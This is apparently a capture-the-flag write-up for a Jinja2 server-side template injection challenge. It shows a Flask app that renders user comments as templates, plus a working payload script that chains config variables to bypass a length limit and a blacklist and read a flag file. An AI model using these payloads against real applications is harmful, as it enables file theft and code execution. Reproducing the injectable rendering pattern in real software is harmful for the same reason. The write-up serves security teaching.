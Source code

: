 ```yaml
---
title: SSTI-Golf
date: 2024-11-26
tags: 
- web
- author-fs
categories: BlahajCTF 2024
---
```


by {% person fs %}

> I got bored of code-golfing so I decided to come up with ssti-golfing.

This challenge was hosted on http://golf.c1.blahaj.sg/.

![](../../static/BlahajCTF2024/golf.png)

This challenge was a classic Jinja2 SSTI challenge but with a (pretty strict) length restriction challenge implemented. Looking at the source code below, it's quite short and not much to really digest.

```py
from flask import Flask, request, render_template, render_template_string
from waitress import serve
import flask
import os
import time

app = Flask(__name__)
app.secret_key=os.urandom(32)

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/greet", methods=["POST"])
def greet():
    blacklist=['cycler','joiner','namespace','lipsum','globals','builtins','request']
    comment=request.form.get("comment")
    if len(comment)>65:
        return render_template("index.html",comment="That's kinda too much for a comment.")
    for i in blacklist:
        if i in comment.lower():
            print('builtins' in comment)
            return render_template("index.html",comment="I don't really like your comment. >:( ")
    return render_template_string(f"Damn. You like {comment}?")

if __name__ == "__main__":
    print(flask.__version__)
    serve(app,host="0.0.0.0",port=8000)

```

The ```render_template_string()``` function directly injects the user supplied data (the comment parameter) into the f-string before rendering it which makes this web app vulnerable to SSTI. However, we see that it checks if the length of the user supplied data exceeds 65 characters (this was a mistake in the source code since it was intended to be 40 but i had deployed this challenge with the restriction being 65 characters so this challenge became significantly more easier (unintended)) and it also blocks a few terms (the blacklist) that can make the SSTI payload extremely short.

However, we can easily get around this restriction by breaking apart our ssti payload into several pieces and storing them into flask config variables since this web app doesn't block using config variables. So you could store ```''.__class__.__mro__[1].__subclassess__``` into a config variable by running ```{{config.update({'u':'ssti-payload'})}}```. Using this method, we can store a payload to read flag.txt such as ```''.__class__.__mro[1].__subclassess__[357]("flag.txt").read()``` which is using LazyFile class to read flag.txt into the following config variables.

```py
import requests
payloads = [
    '{{config.update({"u":config.update})}}', #we are storing the config.update() method into a config variable itself to minimise characters 
    '{{config.u({"a":"".__class__.mro()})}}', #the next few lines just breaks up the payload into multiple parts and stores them into config vars
    '{{config.u({"b":"__subclasses__"})}}',
    '{{config.u({"c":config.a[1]})}}',
    '{{config.u({"d":config.c[config.b]})}}',
    '{{config.u({"e":config.d()[390]})}}',
    "{{config.e('flag.txt').read()}}" ## calling read() on the initialised LazyFile class
]

for i in payloads:
    resp=requests.post("http://golf.c1.blahaj.sg/greet",data={"comment":i})
    print(resp.content)
```

By running this, we get the flag ```blahaj{c0nf1g_v4r14bl35_f7w}```. 

